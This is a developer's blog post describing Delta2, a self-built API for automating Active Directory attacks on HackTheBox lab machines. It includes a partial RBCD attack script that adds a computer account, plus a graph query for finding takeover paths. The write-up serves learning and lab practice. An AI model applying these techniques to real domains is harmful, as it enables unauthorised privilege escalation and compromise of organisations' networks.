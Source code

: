 +++
title = "Delta2"
date = "2024-11-10T16:56:20-07:00"
author = "Ceald"
authorTwitter = "" #do not include @
cover = ""
tags = ["delta2", "new", "cybersecurity", "projects", "python"]
keywords = ["projects", "delta2", "python"]
description = ""
showFullContent = false
readingTime = true
hideComments = false
+++

## Background
Delta2 is an API that is a Swiss army knife for active directory. I wrote this project because I was sick of having to set up java and remembering how to use bloodhound python for doing active directory boxes on HackTheBox, so I wrote my own. Delta2's primary use is automation like automate kerberoasting after mapping the domain or getting shortest paths to admin users and exploiting the necessary users to get to admin users.

Delta2 was my first successful full-stack application and took many months to build. It uses Memgraph which is an alternative to Neo4j as the graphing database and FastAPI for the API, and it's containerized with docker for easy deployment.


## Process of building
### Plan
My plan was to build some kind of script or API that will allow me to move through a domain efficiently. There were a few ways I could've done that like using bloodhound and neo4j to find paths in the graph, but that'd require me to read documentation and code that I didn't write. My second option was to "reinvent the wheel" which is what I did. Unfortunately I thought it'd be the easiest way which it probably wasn't, but I learned more than if I were to just make it based off of bloodhound.

### The Beginning
After I kind of had a plan I started building it. I built an outline for the API with various routes I wanted like Kerberoasting, getting TGTs, AS-REP roasting, and a collection script. Testing was a bit of a pain because I would use boxes from HackTheBox, and sometimes I forgot to take out test code and I would have to take the repository down, remove the test code then put it back up to avoid spoilers for boxes. 

### Collection Script Works
One big issue with building the collection script was supporting Kerberos and reading nTSecurityDescriptors. nTSecurityDescriptors describe what objects and permissions a user has over another for example: Bob has WriteAll on Administrator. I first realized the issue with Kerberos when I couldn't get ldap3 and Impacket to work together like how they work in bloodhound python so I switched to BloodyAD which is an Active Directory privilege escalation framework. So I reverse engineered BloodyAD to figure out how to use it because there's no documentation for how to use its python modules and got it kind of working. I say kind of because now I had to learn how to read nTSecurityDescriptors. You can find how I learned the syntax for nTSecurityDescriptors here:


https://itconnect.uw.edu/tools-services-support/it-systems-infrastructure/msinf/other-help/understanding-sddl-syntax/


Writing the collection script is what took the longest time because I also had to do a little reverse engineering on how bloodhound python worked and do a bunch of debugging to figure out what information and how to commit it to the graph as well as how to connect nodes. After collecting nodes next was to graph and link them that's where I read and parsed nTSecurityDescriptors. No python modules supported it, so I had to do it manually.



### Examples
After getting the collection script working next was to write some examples for how to use the graph data and the other endpoints of the API.

Some examples I built included a kerberoasting script and a RBCD (Resource Based Constrained Delegation) attack script. Some code snippets for the RBCD script:
```python
def run(user, password, hash_, aeskey, delegate_to):
  comp_name = 'randomcomputer550'
  comp_pass = 'Password123!'
  j = {
    "target": {
      "domain": domain,
      "dc": dc,
      "kerberos": "False",
      "ldap_ssl": "False",
      "user_name": user,
      "dc_ip": dc_ip
    },
    "kerb": {
      "password": password,
      "user_hash": hash_,
      "aeskey": aeskey
    },
    "ops": {
      "option": "add_computer",
      "computer_name": comp_name,
      "computer_pass": comp_pass,
      "ou": "",
      "contianer": ""
    }
  }

  response = req.post('http://localhost:9000/ldap/objeditor', json=j).json()
  print(response)

  if "error" in response['response'] and "entryAlreadyExists" not in response['response']:
      raise Custom_exception(message=response['response'])


  j = {
    "target": {
      "domain": domain,
      "dc": dc,
      "kerberos": "False",
      "ldap_ssl": "False",
      "user_name": user,
      "dc_ip": dc_ip
    },
    "kerb": {
      "password": password,
      "user_hash": hash_,
      "aeskey": aeskey
    }
  }
```
The script would add a new computer to the domain and then modify its permissions to have control over an object it can delegate to like the administrator user. All of it is automated by the script running a query to get possible RBCD paths to users. The query:
```sql
MATCH path1=(n {t: "user"})-[ *ALLSHORTEST (r, n | 1)]->(m)
WHERE m.disabled IS NULL AND m.t = "computer"
  AND n.disabled IS NULL 
  AND n.pwned = "True" 
  AND m.pwned IS NULL 
  AND m.added_comp IS NULL 
  AND NOT m.name = 'randomcomputer550$'
  AND ALL(rel IN relationships(path1) WHERE type(rel) IN ["memberOf", "GENERIC_ALL"])
  AND size(relationships(path1)) > 0
RETURN path1
```

More coming soon on this post...